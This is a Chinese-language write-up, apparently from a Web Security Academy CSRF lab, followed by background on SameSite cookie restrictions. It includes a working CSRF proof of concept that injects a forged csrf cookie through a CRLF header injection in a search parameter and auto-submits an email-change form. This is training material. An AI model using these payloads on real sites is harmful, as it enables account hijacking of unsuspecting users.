 按照无防御CSRF漏洞解决方案实验室中所述创建并托管概念利用验证，确保CSRF令牌设置为“假”。应通过电子邮件更改请求创建利用漏洞攻击。

删除`<script>`模块块，并改为以下代码来注入cookie并提交表单：

```
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
 
我的是：
<img src="https://0a34008503e46e188031211b00cf0077.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

更改后的 poc 为（注意2处csrf值改为一致，任意值）

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a34008503e46e188031211b00cf0077.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="333333&#64;qq&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
        <img src="https://0a34008503e46e188031211b00cf0077.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

再把它放到攻击者利用服务器提交

## 中场补充知识

### 三、绕过SameSite Cookie限制

#### 1、简述：

1、SameSite是一种浏览器安全机制，用于确定何时将网站的Cookie包含在源自其他网站的请求中。SameSite Cookie限制提供了针对各种跨站点攻击的部分保护，包括CSRF、跨站点泄漏和一些CORS漏洞攻击。 

#### 2、SameSite Cookie的上下文中、网站

在SameSite Cookie限制的上下文中，站点被定义为顶级域（TLD），通常类似于.com或.net，再加上一个附加级别的域名。这通常被称为TLD+1。

在确定请求是否为同一站点时，还考虑URL方案。这意味着从 http://app.example.com 到https://app.example.com的链接被大多数浏览器视为跨站点链接。 